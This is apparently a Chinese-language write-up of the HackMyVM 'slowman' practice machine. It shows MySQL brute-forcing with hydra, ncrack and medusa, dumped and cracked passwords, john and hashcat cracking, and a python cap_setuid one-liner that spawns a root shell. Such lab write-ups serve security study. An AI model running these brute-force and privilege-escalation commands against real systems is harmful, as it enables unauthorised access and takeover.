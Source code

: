 ```yaml
---
title: slowman
tags:
  - sec
date: 2024-02-15T15:44:24
lastmod: 2025-09-29T20:52:11
toc: "true"
---
```

## 端口扫描
网络环境问题,还是得 nmap 的全端口扫描

![HMM_slowman_image_1](https://img.l1uyun.one/HMM_slowman_image_1.png)

## ftp 匿名登录

![HMM_slowman_image_2](https://img.l1uyun.one/HMM_slowman_image_2.png)

## 爆破 mysql 密码
trainerjeff
接下来得看 mysql 了
hydra 好慢
换了 ncrack 试试
```bash
sudo ncrack -T5 -v -u trainerjeff -P /usr/share/wordlists/rockyou.txt mysql://192.168.10.8
sudo  medusa -h 192.168.10.8 -u trainerjeff -P /usr/share/wordlists/rockyou.txt -M mysql
sudo hydra -l trainerjeff -P /usr/share/wordlists/rockyou.txt 192.168.10.8 mysql
```
没出来, 吐了, 每分钟八次. 太慢了. 看 wp 算了
假装枚举出来了
![HMM_slowman_image_3](https://img.l1uyun.one/HMM_slowman_image_3.png)
## 枚举 mysql 信息
```bash
sudo mysql -h 192.168.10.8 -u trainerjeff -psoccer1
```
![HMM_slowman_image_4](https://img.l1uyun.one/HMM_slowman_image_4.png)
```bash
|  1 | gonzalo     tH1sS2stH3g0nz4l0pAsSWW0rDD!! 
|  2 | $SECRETLOGINURL /secretLOGIN/login.html  
```
![HMM_slowman_image_5](https://img.l1uyun.one/HMM_slowman_image_5.png)
## web 枚举
![HMM_slowman_image_6](https://img.l1uyun.one/HMM_slowman_image_6.png)
进入之前 mysql 中发现的隐藏目录, 使用发现的用户名密码登录, 后面发现这个也能登录 ssh
![HMM_slowman_image_7](https://img.l1uyun.one/HMM_slowman_image_7.png)
进去之后有个压缩包, 有密码
使用 john
![HMM_slowman_image_8](https://img.l1uyun.one/HMM_slowman_image_8.png)
解压之后是一个账号和密码, 猜测是 ssh 的
```bash
----------
$USERS: trainerjean

$PASSWORD: $2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq 
---------- 

```
使用 hashcat 解密一下
```bash
hashcat -m 3200 -a 0 hhh /usr/share/wordlists/rockyou.txt
  
$2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq:tweety1
```

## USER_trainerjean
![HMM_slowman_image_9](https://img.l1uyun.one/HMM_slowman_image_9.png)
在 trainjean 的目录下面发现了这个 python 代码,
```bash
trainerjean@slowman:~$ cat .python_history
import os
os.system('bash')
os.system('0')
os.setid('0')
os.setuid('0')
exit
```
## USER_root
尝试提权
上传 linpeas 和 pspy64, 后者没有发现什么
![HMM_slowman_image_10](https://img.l1uyun.one/HMM_slowman_image_10.png)
没有注意 Capabilities 文件的信息.. 错过了
使用命令查找 Capabilities 文件
```bash
getcap -r / 2>/dev/null

/usr/bin/python3.10 cap_setuid=ep

/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![HMM_slowman_image_11](https://img.l1uyun.one/HMM_slowman_image_11.png)
